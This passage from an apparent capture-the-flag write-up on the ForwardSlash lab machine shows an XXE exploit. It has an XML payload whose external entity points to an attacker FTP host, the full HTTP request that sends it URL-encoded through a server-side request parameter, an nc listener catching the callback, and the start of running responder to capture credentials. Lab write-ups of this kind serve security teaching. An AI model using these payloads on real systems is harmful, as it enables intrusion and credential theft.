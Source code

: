 I updated the payload to try FTP:



    <?xml version="1.0" ?>
    <!DOCTYPE root [
    <!ENTITY % ext SYSTEM "ftp://10.10.14.24/"> %ext;
    ]>
    <r></r>



I send it:



    POST /profilepicture.php HTTP/1.1
    Host: backup.forwardslash.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://backup.forwardslash.htb/profilepicture.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 573
    Connection: close
    Cookie: PHPSESSID=q0gqh5u3ak0hltppu9jq91iu0a
    Upgrade-Insecure-Requests: 1
    Pragma: no-cache
    Cache-Control: no-cache

    url=http://backup.forwardslash.htb/dev/index.php?xml=%253c%253f%2578%256d%256c%2520%2576%2565%2572%2573%2569%256f%256e%253d%2522%2531%252e%2530%2522%2520%253f%253e%250d%250a%253c%2521%2544%254f%2543%2554%2559%2550%2545%2520%2572%256f%256f%2574%2520%255b%250d%250a%253c%2521%2545%254e%2554%2549%2554%2559%2520%2525%2520%2565%2578%2574%2520%2553%2559%2553%2554%2545%254d%2520%2522%2566%2574%2570%253a%252f%252f%2531%2530%252e%2531%2530%252e%2531%2534%252e%2533%2534%252f%2522%253e%2520%2525%2565%2578%2574%253b%250d%250a%255d%253e%250d%250a%253c%2572%253e%253c%252f%2572%253e



And I get a connection at `nc`:



    root@kali# nc -lnvp 21
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::21
    Ncat: Listening on 0.0.0.0:21
    Ncat: Connection from 10.10.10.183.
    Ncat: Connection from 10.10.10.183:37392.



I could send back the strings that an FTP server would send, or I can
just run `responder`. I'll start it and send again in Repeater, and it
captures the username and password:



    root@kali# responder -I tun0 
                                             __
      .----.-----.-----.-----.-----.-----.--|  |.-----.----.
      |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
      |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                       |__|
